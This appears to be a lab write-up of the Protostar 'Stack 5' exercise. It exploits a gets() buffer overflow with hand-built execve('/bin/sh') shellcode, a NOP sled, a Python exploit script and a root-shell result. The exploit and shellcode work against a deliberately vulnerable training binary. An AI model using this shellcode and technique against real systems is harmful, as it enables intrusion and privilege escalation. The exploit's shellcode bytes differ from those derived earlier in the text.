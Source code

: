 # STACK 5

## SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);           // <- Buffer Overflow
}
```

## IDEA

- We can see that is code has Buffer Overflow vulnerability, but we does not have win or get shell function, so, I write my own shellcode by disassemble from nasm code and put it in stack of program with BOF vuln and execute shellcode to get the shell.

## DETAIL

- This assembly code which we use to inject to stack must not have 0x0 byte (or NULL byte), because we read the input as a string, so if it has 0x0 byte, the gets function just terminated at that byte. 

```asm
section .text:
	global _start:
_start:
  push 	0xb
  pop 	eax                ; mov 	eax, 0xb
  xor 	edx, edx     	   ; mov 	edx, 0

  push 	edx                ; mov 	ebx, "/bin/sh"
  push 	0x68732f2f
  push 	0x6e69622f
  mov 	ebx, esp

  xor 	ecx, ecx           ; mov 	ecx, 0
  int 	0x80
```

- Objdump and I have shellcode of this assembly file

```asm
λ ~ \ objdump -M intel -D shellcode

shellcode:     file format elf32-i386


Disassembly of section .text::

08049000 <_start>:
 8049000:       6a 0b                   push   0xb
 8049002:       58                      pop    eax
 8049003:       31 d2                   xor    edx,edx
 8049005:       52                      push   edx
 8049006:       68 2f 2f 73 68          push   0x68732f2f
 804900b:       68 2f 62 69 6e          push   0x6e69622f
 8049010:       89 e3                   mov    ebx,esp
 8049012:       31 c9                   xor    ecx,ecx
 8049014:       cd 80                   int    0x80
```

- The shellcode

```
\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

- We can play something fun with this shellcode in C

```c
// filename: vuln.c
#include<stdio.h>

int main()
{
  char shellcode[] = "\x6a\x0b\x58\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";
   ( (void(*)())shellcode )();
  return 0;
}

// gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
```

- Compile with flag execstack to enable stack execute shellcode and disable the stack protector to make shellcode work.

```
λ ~ \ gcc -m32 -z execstack -fno-stack-protector -o vuln vuln.c
λ ~ \ ./vuln
$ ls
vuln  vuln.c
$
```

- So the shellcode works pretty well. Let's check some informations and make some payload to exploit the vulnerability.

- The shellcode attack can understand by this below text

```
|                     from this                   to                    this
|                  .  .  .  .  .                                   .   .   .   .   .
|          +----------------------------+                   +----------------------------+
|          |                            |                   |                            |
|          |                            |                   |                            |
|          |    Content of function     |                   |    padding "aaaaaaaaa"     |
|          |                            |                   |                            |
S          |                            |                   |                            |
t          +----------------------------+                   +----------------------------+
a          |        EBP  Reserve        |                   |       padding "aaaa"       |
c          +----------------------------+         ->        +----------------------------+
k          |            RET             |                   |     address of RET + 75    |
|          +----------------------------+                   +----------------------------+
|          |                            |                   |                            |
|          |                            |                   | a bunch of "\x90" nopcode  |
|          |       some argument        |                   |     and after nopcode      |
|          |      of this function      |                   |        is shellcode        |
|          |                            |                   |                            |
|          +----------------------------+                   +----------------------------+
|                  .  .  .  .  .                                   .   .   .   .   .

```

```
(gdb) run
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd54) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
0x080483c4 <main+0>:     55     push   ebp
0x080483c5 <main+1>:     89 e5  mov    ebp,esp
0x080483c7 <main+3>:     83 e4 f0       and    esp,0xfffffff0
0x080483ca <main+6>:     83 ec 50       sub    esp,0x50
(gdb) x/40xw $esp
0xbffffcac:     0xb7eadc76      0x00000001      0xbffffd54      0xbffffd5c
0xbffffcbc:     0xb7fe1848      0xbffffd10      0xffffffff      0xb7ffeff4
0xbffffccc:     0x08048232      0x00000001      0xbffffd10      0xb7ff0626
0xbffffcdc:     0xb7fffab0      0xb7fe1b28      0xb7fd7ff4      0x00000000
0xbffffcec:     0x00000000      0xbffffd28      0xfc6b4546      0xd62a5356
0xbffffcfc:     0x00000000      0x00000000      0x00000000      0x00000001
0xbffffd0c:     0x08048310      0x00000000      0xb7ff6210      0xb7eadb9b
0xbffffd1c:     0xb7ffeff4      0x00000001      0x08048310      0x00000000
0xbffffd2c:     0x08048331      0x080483c4      0x00000001      0xbffffd54
0xbffffd3c:     0x080483f0      0x080483e0      0xb7ff1040      0xbffffd4c
```

- Before run into main function, I check the top of stack and we can see that the ret of main has address `0xbffffcac`, so I will place this with `0xbffffcac + 75 = 0xbffffcf7` and padding after RET is 200 bytes "\x90" that is nopcode, the purpose of this stuff is that address of main's RET can vary in a range address at each time we run the program. So we add 200 bytes of nopcode to increase the possibility to return to nopcode which will gled to shellcode.  

- Then I find offset to overwrite and finish the exploit file.

## EXPLOIT


```python
# filename: exp.py

payload = "a"*76

ret = "\xf7\xfc\xff\xbf"
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload +=  ret + "\x90"*200 + shellcode

print(payload)

# python epx.py > temp.pwn
# (cat temp.pwn; cat) | ./stack5
```

## RESULT

```
root@protostar:/opt/protostar/bin# (cat temp.pwn; cat) | ./stack5
ls
exp.py  final0  final1  final2  format0  format1  format2  format3  format4  heap0  heap1  heap2  heap3  net0  net1  net2  net3  net4  stack0  stack1  stack2  stack3  stack4  stack5  stack6  stack7  temp.pwn
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```
